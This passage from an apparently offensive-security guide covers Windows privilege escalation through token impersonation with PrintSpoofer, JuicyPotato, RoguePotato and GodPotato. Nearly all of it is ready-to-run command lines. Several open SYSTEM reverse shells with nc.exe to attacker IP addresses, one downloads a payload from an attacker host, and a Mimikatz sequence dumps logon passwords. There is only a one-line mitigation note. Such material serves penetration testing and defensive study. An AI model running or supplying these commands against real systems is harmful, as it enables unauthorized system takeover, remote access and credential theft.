 ```
C:\\tools> PrintSpoofer.exe -i -c cmd.exe

```

This listens on a pipe and then launches a SYSTEM cmd in your current window. In the example, the output shows it finds the privilege and returns nt authority\system. It can also spawn on a given desktop or start a reverse shell:

```
C:\\tools> PrintSpoofer.exe -c "C:\\Tools\\nc.exe 10.10.13.37 1337 -e cmd"

```

spawns a reverse shell as SYSTEM.

- **JuicyPotato / JuicyPotatoNG**: Uses DCOM COM interfaces to trigger authentication with SYSTEM. Requirements: SeImpersonate or SeAssignPrimaryToken, and a suitable COM CLSID (there are many defaults, e.g. BITS CLSID). Exploit: run `JuicyPotato.exe -t * -p <payload> -l <port>` (try both CreateProcessWithToken and CreateProcessAsUser). Example:

```
C:\\> JuicyPotato.exe -t * -p C:\\windows\\system32\\cmd.exe -l 443

```

This binds a listener on port 443, sets up a COM server, then triggers it. On success it returns a SYSTEM shell. (If you have a reverse shell tool shell.exe, you could do -p shell.exe and pick off a connection).

- **GodPotato / RoguePotato**: Newer variants for Win10/2019+. They similarly use customized DCOM OXID resolver techniques. For example, as shown by Arunkumar, after getting a shell as LOCAL SERVICE (with SeImpersonate enabled), RoguePotato is run like:

```
C:\\PrivEsc> RoguePotato.exe -r 10.9.3.94 -e "C:\\PrivEsc\\reverse.exe" -l 9999

```

This prints threads "Creating Rogue OXID resolver" and ultimately spawns the payload as SYSTEM. The flags are -r `<attackerIP>` -e `<exe>` -l `<port>`. (GodPotato usage is similar with -cmd `"<command>"`). Example:

```
# Download GodPotato, then run it with PowerShell on a Windows 2012+ target:
powershell -c wget http://<attacker>/GodPotato-NET4.exe -OutFile potato.exe
C:\\> .\\GodPotato.exe -cmd "C:\\Tools\\nc.exe -e cmd.exe 192.168.45.162 4040"

```

This yields a SYSTEM reverse shell. Tools like PrintSpoofer/Juicy/God/Rogue all achieve the same end: SYSTEM. Mitigation: remove unnecessary SeImpersonatePrivilege from service accounts, or disable/disallow the vulnerable COM interfaces (hard).

- **SeDebugPrivilege**: Some accounts have SeDebug (like backup operators). With SeDebugPrivilege, one can open SYSTEM process tokens (e.g. PsGetSid/PsExec or Mimikatz) to spawn SYSTEM. For example, using Mimikatz:

```
privilege::debug
token::elevate
sekurlsa::logonPasswords

```

